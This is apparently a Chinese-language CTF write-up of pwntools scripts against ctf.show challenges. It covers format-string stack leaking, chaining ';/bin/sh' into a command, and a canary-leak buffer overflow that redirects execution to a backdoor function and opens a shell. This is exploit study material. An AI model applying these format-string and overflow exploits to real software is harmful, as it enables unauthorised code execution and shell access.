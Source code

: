 收获：

- `fmtstr_payload`的更深一层的用法，`fmtstr_payload`函数返回一个字节字符串，可以通过在前面叠加字符串的方式来形成对齐，对齐之后可以进行操作。`numbwritten`参数告诉`fmtstr_payload`函数此时字符串已经写了多少字符串，让函数相对应减少相关字符串的生成以达到注入正确的字符串
- `sh.sendline(";/bin/sh\x00")`，通过使用`;`号在进行命令的时候，`;`是一个 shell 分隔符，它允许在同一行中执行多个命令。因此，当**前一个**命令失败后，shell 会继续执行下一个命令。

# 栈内容获取

```python
from pwn import *
import warnings
from LibcSearcher import *

warnings.filterwarnings("ignore")
# 修改context上下文
context(os='linux', arch='i386', log_level='debug',endian='little')
elf = ELF("./pwn")

sh =  remote('pwn.challenge.ctf.show',28111)

offset = 22 

result = b''
i=6
for i in range(6,18):
    payload2 = f"%{i}$p"

    sh.sendlineafter("$ ",payload2)
    part = unhex(sh.recvuntil("\n",drop=True).replace(b"0x",b""))
    result+=part[::-1]
    
print(result)
```

收获：

- 在栈上的字符串是直接贮存的字符数组，而不是地址，所以需要使用`%p`，而不是`%s`
- 小端存储的字符串需要注意，`0x73667463 —> 63 74 66 73 （内存中） —> b"ctfs"`
- 每一个`sh.recv`返回的字符串都是以`\n`结尾的，使用`recvuntil`进行相关截取

# 绕过canary

```python
from pwn import *
context.log_level = 'debug'
io = remote('pwn.challenge.ctf.show',28213)
elf = ELF('./pwn')
backdoor = elf.sym["__stack_check"]

payload = "%15$p"

io.sendline(payload)
canary = int(io.recv(),16)

payload2 = b"a"*(0x28)+p32(canary)+b"a"*(0xc)+p32(backdoor)
io.sendline(payload2)
io.interactive()
```
